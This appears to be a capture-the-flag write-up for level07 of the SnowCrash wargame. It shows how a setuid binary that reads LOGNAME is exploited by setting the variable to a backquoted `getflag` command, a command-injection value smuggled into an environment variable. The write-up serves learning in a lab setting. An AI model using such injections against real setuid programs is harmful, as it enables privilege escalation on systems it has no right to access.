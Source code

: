 # Level07

## Research
--------------

```bash
level07@SnowCrash:~$ ls -l
-rwsr-sr-x 1 flag07 level07 8805 Mar  5  2016 level07
```

```bash
level07@SnowCrash:~$ strings level07
[...]
LOGNAME
[...]
```
The program level07 seems to get the environment variable LOGNAME. </br>

`In computer software, logname (stands for Login Name) is a program in Unix and Unix-like operating systems that prints the name of the user who is currently logged in on the terminal. It usually corresponds to the LOGNAME variable in the system-state environment (but this variable could have been modified).` </br>
https://en.wikipedia.org/wiki/Logname

## Solution
---------------

We can modify this variable to `getflag` between backquotes, so it will be executed.</br>
https://book.hacktricks.xyz/pentesting-web/command-injection

```bash
level07@SnowCrash:~$ export LOGNAME=\`getflag\`
level07@SnowCrash:~$ ./level07
```
Gives the token.
